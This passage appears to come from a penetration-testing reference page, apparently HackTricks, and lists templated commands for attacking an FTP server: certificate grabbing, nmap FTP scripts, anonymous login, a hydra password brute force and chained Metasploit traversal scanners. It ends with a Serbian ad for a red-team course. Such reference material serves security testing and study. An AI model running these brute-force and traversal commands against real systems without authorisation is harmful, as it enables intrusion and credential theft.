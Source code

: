 ```
Name: Cert Grab
Description: Grab FTP Certificate if existing
Command: openssl s_client -connect {IP}:21 -starttls ftp

Entry_4:
Name: nmap ftp
Description: Anon login and bounce FTP checks are performed
Command: nmap --script ftp-* -p 21 {IP}

Entry_5:
Name: Browser Connection
Description: Connect with Browser
Note: ftp://anonymous:anonymous@{IP}

Entry_6:
Name: Hydra Brute Force
Description: Need Username
Command: hydra -t 1 -l {Username} -P {Big_Passwordlist} -vV {IP} ftp

Entry_7:
Name: consolesless mfs enumeration ftp
Description: FTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/ftp/anonymous; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/ftp_version; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/bison_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/colorado_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' &&  msfconsole -q -x 'use auxiliary/scanner/ftp/titanftp_xcrc_traversal; set RHOSTS {IP}; set RPORT 21; run; exit'
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
